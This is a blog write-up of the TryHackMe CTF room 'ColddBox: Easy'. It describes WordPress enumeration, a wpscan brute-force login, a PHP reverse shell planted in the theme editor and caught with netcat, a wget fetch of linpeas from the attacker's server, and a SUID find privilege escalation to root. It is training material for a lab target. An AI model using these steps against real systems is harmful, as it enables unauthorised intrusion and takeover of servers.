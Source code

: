 ColddBox: Easy WriteUp
======================

[July 15, 2021](https://jarrodrizor.com/colddbox-easy-writeup/ "10:14 pm") [Jarrod](https://jarrodrizor.com/author/jarrod/ "View all posts by Jarrod")

This is a WriteUp on how to complete the room [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy) on [TryHackMe](https://tryhackme.com).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/Banner_ColddBoxEasy_THM_.png)

Note* I used Kali Linux to complete this room. The IP address of my room was 10.10.170.248, so that will be the IP you see in the writeup. Replace 10.10.170.248 with the IP of your target box.

Let's begin this room by enumerating and gathering information about the server by doing an Nmap scan to see what ports are open.

Running the command:\
**sudo nmap -sV -T4 -O -oN nmap_scan 10.10.170.248** shows ports 4512 and 80 are open and running SSH 7.2 and Apache 2.4.18 on an Ubuntu Server. Note that SSH is running on a different port than normal.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/nmap_coldbox.png)

How this works:\
nmap -- The command used to execute Nmap.\
-sV -- This means Nmap will run a service/version detection scan.\
-O -- Does OS Detection and Fingerprinting.\
-T4 -- This is the timing option. T4 is a good mix of speed and accuracy for CTF's.\
-oN nmap_scan -- This means we want to save the output to a file named nmap_scan for future use.

Since Apache is running on port 80. Let us take a look and see if a website is being hosted on the server. Navigating to http://10.10.170.248 displays a landing page for a WordPress site.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/home_page_coldbox.png)

Looking around the website doesn't show anything interesting and nothing appears in the source code either. Let's do more enumeration with Gobuster and see if we can find hidden files/directories.

Running the command:

**gobuster dir -u http://10.10.170.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_scan.txt** displays hidden directories.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_coldbox.png)

How this works:\
gobuster -- The command to execute Gobuster.\
dir -- (scan for directories).\
-u -- Target URL.\
-w -- the wordlist we are using to scan for hidden directories. In this case, I used the wordlist in Dirbuster called directory-list-2.3-small.txt.\
-o -- saves the output to a file. In this case, we are saving to gobuster_scan.txt.

Here are the results of the scan. The interesting directory that stands out is /hidden. Let's take a look.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/gobuster_hidden_coldbox.png)

Navigating to http://10.10.170.248/hidden displays a message note intended for general public, but found with simple scanning techniques. This shows that they are running into password management issues. This could be our ticket in.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/hidden_page_coldbox.png)

Since we know this is a WordPress site. Let us bring in another tool to learn more about it. WPScan.

Running the command:

**wpscan --url http://10.10.170.248 --enumerate** will scan the site and give us more information about the WordPress CMS.\
(This displays a lot of information and I encourage you to run it and see all the results from the scan.)

How this works:\
wpscan -- The command to execute WPScan.\
--url -- Target URL.\
--enumerate -- Tells WPScan to scan the site to learn about plugins, themes, configs, users and other info.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic1_coldbox.png)

The results we should be interested in are the three users. They are philip, c0ldd, and hugo.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_pic3_coldbox.png)

We can use WPScan and see if we can find passwords for these users and log in with a password attack.

Running the command:

**wpscan --url http://10.10.170.248 --usernames philip,hugo,c0ldd --passwords /usr/share/wordlists/rockyou.txt** begins the brute force attack to see if we can find a password for these users.

How this works:\
wpscan -- The command to execute WPScan.\
--url -- Target URL.\
--usernames -- Users that we want to attack.\
--passwords -- List of passwords to use in the brute force attack. In this case we are using the famous rockyou.txt file.

After a few minutes, we have a hit on the user C0ldd!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wpscan_coldd_password_coldbox.png)

We can now try and log in as the user!

Let's navigate to http://10.10.170.248/wp-login should display the log in page. Let's use our new found credentials c0ldd:9876543210.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_login_coldbox-1.png)

We now have access to the dashboard. Here we can look around and get more information about our target. What's very interesting and also poor configuration on the targets end is the WordPress Editor is still enabled. This is located in the menu on the left hand side under Appearance.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/wp_dashboard_coldbox.png)

With this feature, we can easily drop in PHP code to perform a reverse shell. (Anyone running a PHP site needs to disable this as it's very easy to abuse as we shall soon see.)

Kali Linux has PHP Reverse Shell scripts located in /usr/share/webshells/php/. The file is named php-reverse-shell.php. Open it with a text editor and we need to update two values. The $ip and $port.

The $ip will be the IP Address of our attack machine. Using the TryHackMe VPN, let's look for tun0 and use that IP! We can find the IP Address with the command **ip addr** (which displays network interfaces).

The $port will be our listening port for the reverse shell. Let's use 4444 as it's out of the range of the known ports.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/reverse_shell_script_coldbox.png)

Before we copy and paste this script to the WordPress Editor, let's get a listener setup with Netcat.

Now let's use Netcat and get into the system!

**Running the Command: nc -lvnp 4444** starts a Netcat listener.

What this does\
nc -- Executes Netcat.\
-l -- Listen for a request.\
-v -- Verbose output.\
-n -- Do not use DNS.\
-p -- What port to listen on.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/listener_coldbox.png)

Now that we have the script set up and the listener going. We need to copy and paste it to the editor to get the reverse shell to fire. We also need to pick a page to use that we can navigate to in the web browser. Let's do the 404.php page as it's easy to find and won't break anything in the template to break the site. Let's open it up in the editor and copy and paste!

![](https://jarrodrizor.com/wp-content/uploads/2021/07/editor_404_coldbox.png)

Now we just need to navigate to a page that doesn't exist to trigger the 404.php page. Let's go to http://10.10.170.248/?p=3 and trigger it! Let's check back to our Netcat listener. We should have a session going and running as www-date.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/remote_login_coldbox-1.png)

We can navigate around the server, but we won't get far as the www-data user. This would be a good time to get Linpeas on the server and let that scan for areas of interest.

The way we can do this is to download the linpeas.sh file from the [GitHub Repository](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_github.png)

With linpeas.sh on our attack machine, we can start a Python Web Server and **wget** the file to our target server. In the same directory as the linpeas.sh file let us run the command **python3 -m http.server 8888**. This starts a Python Web Server and we can host files here. This will help us do a wget from the target box to pull in the linpeas.sh file.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/python_server_coldbox.png)

In the /tmp folder, run **wget (YOUR IP):8888/linpeas.sh** and that will pull in the linpeas.sh file from the Python Web Server. The last step is to make the file executable with the command **chmod +x linpeas.sh**.![](https://jarrodrizor.com/wp-content/uploads/2021/07/wget_linpeas.png)

Now let's fire linpeas with ./linpeas.sh.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_coldbox.png)

What this is doing is scanning the server for possible vulnerabilities and things we can exploit. It's a very handy enumeration tool for Linux systems.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/linpeas_interesting_files_coldbox.png)

Linpeas has made a very important discovery. Turns out the find command has an exploitable permission in the form of a SUID. Let's reference [GTFOBins](https://gtfobins.github.io/) and lookup the [Find](https://gtfobins.github.io/gtfobins/find/#suid) command.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/find_coldbo_coldbox.png)

It looks simple enough. Using the find command, we can escalated our privileges to root!

Let's run the command **find . -exec /bin/sh -p \; -quit .\
**

Running whoami should show us that we are now root and can get the root.txt file and user.txt file in /root and /home/c0ldd/.

![](https://jarrodrizor.com/wp-content/uploads/2021/07/becoming_root_coldbox.png)

That completes the room! Well done! If you found this helpful, please send me a [tweet](https://twitter.com/JarrodR87) and tell me what you thought! Feedback is always appreciated!

Jarrod
